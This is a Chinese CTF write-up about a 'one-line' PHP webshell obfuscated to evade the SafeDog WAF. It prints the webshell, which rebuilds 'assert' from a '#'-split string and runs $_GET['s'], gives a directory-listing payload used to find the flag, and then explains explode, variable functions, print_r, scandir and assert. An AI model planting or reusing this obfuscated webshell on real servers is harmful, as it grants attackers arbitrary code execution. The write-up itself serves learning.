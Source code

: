 # 过狗一句话

##解题过程:

---

```php
<?php 
	$poc="a#s#s#e#r#t"; 
	$poc_1=explode("#",$poc); 			    								$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; 	$poc_2($_GET['s']) 
?>
```

1.首先读一下题目给我们的代码提示.

开头定义一个字符串poc为"a#s#s#e#r#t".

接着用explode()函数将poc中的'#'去除,将处理后获得的"asssert"数组赋值给poc_1

然后将poc_1中的assert用字符拼接,赋给poc_2

最后利用poc_2 调用assert()函数,实现对s传入表达式的执行.

2.读懂源码后,我们就知道这里存在一个任意代码执行的漏洞.

那接下来我们就要考虑如何利用这个漏洞拿到我们的flag呢?

给s传值遍历一下目录.

```php
?s=print_r(scandir('./'));

#Array ( [0] => . [1] => .. [2] => flag_sm1skla1.txt [3] => index.php )
```

然后我们访问flag_sm1skla1.txt就找到flag了.



##学习知识:

---

1.explode(string $delimiter , string \$string [,int \$limit =PHP _INT_MAX]):array

Returns an array of strings,each of witch is a  substring of string formed by splitting it on boundaries formed by the string delimiter.

2.Variable functions

If a variable name has parentheses appended to it,PHP will look for a function with the same name as whatever the variable evaluates to,and will attempt to execute it.(Variable functions won't work with language constructs such as echo,print,unset(),isset(),empty(),include,require and the like.)

源码展示的就是过狗一句话木马,它的基础便是variable functions.poc到poc_2之间混淆的string到arrary再到"assert"字符串的转化,都是为了在最后,通过variable functions调用assert(),实现任意代码执行.

3.print_r(mixed $expression[,bool \$return = FALSE]):mixed

Display information about a variable n a way that's readable by humans.

(print_r(),var_dump(),var_export() will also show protected and private properties of objects.Static class members will not be shown.)

4.scandir(**string \$directory**[,int \$sorting_order = SCANDIR_SORT_ASCENDING[,resource \$context]]):array

List files and directoryes inside the specified path.

通常scandir(string \$directory)会和print_r()组合使用.

5.assert(mixed \$assertion[,string \$description]):bool

assert() will check the given assertion and take appropriate action if its result is FALSE.



##参考资料:

---

PHP explode:http://php.net/manual/en/function.explode.php

PHP assert: http://php.net/manual/en/function.assert.php

PHP Variable functions:http://php.net/manual/en/functions.variable-functions.php

PHP print_r:http://php.net/manual/en/function.print-r.php

PHP scandir:http://php.net/manual/en/function.scandir.php

PHP assert:http://php.net/manual/en/function.assert.php